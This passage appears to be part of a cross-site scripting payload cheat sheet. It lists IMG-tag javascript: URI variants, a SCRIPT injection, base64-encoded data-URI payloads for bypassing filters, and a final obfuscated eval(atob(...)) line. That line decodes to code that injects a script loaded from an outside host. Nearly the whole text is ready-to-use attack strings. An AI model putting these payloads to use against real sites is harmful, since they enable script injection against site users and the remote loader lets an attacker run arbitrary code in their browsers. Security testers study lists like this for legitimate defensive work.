 ```javascript
<IMG SRC=javascript:alert('XSS')>
```

```javascript
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

```javascript
<IMG SRC=javascript:alert("XSS")>
```

```javascript
<IMG SRC=`javascript:alert("RSnake says,'XSS'")`>
```

```javascript
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
```

```javascript
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```

```javascript
<IMG SRC=javascript:alert('XSS')>
```

## Using Data URIs: 
- https://www.paladion.net/blogs/bypass-xss-filters-using-data-uris

Base64-decoded payload: 

```javascript
<script>alert("Hello");</script>
```

Base64-encoded payload:

```
PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
```

In data URI:

```
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
```

In data URI image:

```
data:image/gif;base64,PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpIC8+
```

## Base64 eval:

```
eval(atob('dmFyIHg9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7eC5zcmMgPSAiLy9hZXJzdC5vbmUvcC94Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw=='))
```
